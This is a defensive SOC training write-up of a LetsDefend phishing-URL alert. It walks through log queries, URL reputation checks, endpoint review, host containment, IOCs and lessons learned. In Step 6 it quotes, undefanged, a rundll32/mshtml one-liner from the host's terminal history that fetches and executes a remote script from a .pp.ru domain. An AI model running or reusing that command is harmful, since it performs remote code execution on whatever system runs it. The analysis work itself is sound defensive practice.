






# SOC141 - Phishing URL Detected

LetsDefend alert, beginner level, proxy type. The goal: find out whether a user really reached a phishing URL, contain the host if so, and document the IOCs without clicking anything.

Verdict: true positive, host contained.

## The alert

EventID 86, 2021-03-22 21:23:12 (+03:00). No context, no email, just an alert on the dashboard and a ticket to open.

| Field | Value |
|---|---|
| User | ellie |
| Source | EmilyComp, 172.16.17.49 |
| Destination | mogagrocol.ru, 91.189.114.8 |
| Device action | Allowed |
| Request URL | `hxxp[://]mogagrocol[.]ru/wp-content/plugins/akismet/fv/index[.]php?email=ellie@letsdefend[.]io` |
| User-Agent | `Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.88 Safari/537.36` |

The URL points to a PHP file inside a WordPress plugin folder and carries the user's email as a parameter. That is the usual shape of a phishing kit dropped on a hacked WordPress site, with the victim's address pre-filled on the fake login page.



## Step 1: Log Management

The playbook asks for source, destination and user-agent, then points to Log Management. I filtered on the two IPs from the alert:

```
Source Address equals "172.16.17.49" AND Destination Address contains "91.189.114.8"
```

Two events: a firewall log at 19:23:16 and a proxy log at 19:23:54, both 172.16.17.49:55662 to 91.189.114.8:80. The proxy log contains the full request URL.



## Step 2: Is the URL malicious?

Before pasting the URL anywhere, I defanged it with CyberChef (Defang URL recipe). That way it can go into notes and the case without anyone clicking it by mistake.

Then VirusTotal, because it is the tool I know best. URL: 11/93. Domain: 10/92. Most vendors tag it as phishing.



Malicious. Next question.

## Step 3: Did the host reach the URL?

Endpoint Security, EmilyComp. In Network Action, no connection to 91.189.114.8: the most recent entry is from 2021-02-14. In Browser History, a single bit.ly link (`bit.ly/3ecXem52`). Bitly's link checker resolves it to postyourclassified.com, so it is outside the scope of this alert.

At that point, the endpoint suggested "no access". Then I went back to the logs from step 1: the firewall saw the connection, the proxy saw the request, and the alert itself says Device Action: Allowed. The request went through.

Long story short: the answer was on the first screen.

## Step 4: Containment

EmilyComp contained from Endpoint Security.



## Step 5: The destination IP

91.189.114.8 is clean today: 0/92 on VirusTotal, 0% and no reports on AbuseIPDB. It belongs to RU-CENTER (AS48287), a hosting provider in Moscow, and VirusTotal now resolves mogagrocol.ru to another IP (195.24.68.4).

The event dates from 2021. Reputation checked years later describes the IP as it is now, not as it was on the day of the alert. A shared hosting IP can carry a phishing page one month and a bakery's website the next. It still goes into the IOCs, labelled as the destination IP of the request.

## Step 6: Something else in the terminal history

EmilyComp's terminal history contains this one-liner:

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://ru-uid-507352920.pp.ru/KBDYAK.exe")
```

rundll32 loads mshtml to run JavaScript, which fetches and runs a remote script. My first idea was that this script had opened the phishing URL. The timestamp says otherwise: 14.02.2021 12:12, five weeks before the alert, on a different domain. It lines up with the Network Action entry to 67.68.210.95 on the same day at 12:12, and with the proxy logs of 2021-02-14 to 67.68.210.95 and 162.241.242.173.

A separate, earlier incident on the same host. Not the cause of this alert, so it stays out of this case's artifacts.



## Artifacts

| Value | Type | Comment |
|---|---|---|
| `hxxp[://]mogagrocol[.]ru/wp-content/plugins/akismet/fv/index[.]php?email=ellie@letsdefend[.]io` | URL | Malicious URL |
| `91[.]189[.]114[.]8` | IP | Destination IP, clean today |

## Result

Closed as true positive, playbook score 10/10.



## MITRE ATT&CK

- T1204.001 User Execution: Malicious Link
- T1218.011 System Binary Proxy Execution: Rundll32 (earlier activity)

## Mistakes and adjustments

I checked the endpoint before re-reading my own logs. An empty Network Action tab almost made me close this as "no access", while the proxy log and the Device Action field already said otherwise.

I linked the rundll32 command to this alert before looking at its date.

An empty tab proves nothing. Logs first, then the endpoint.

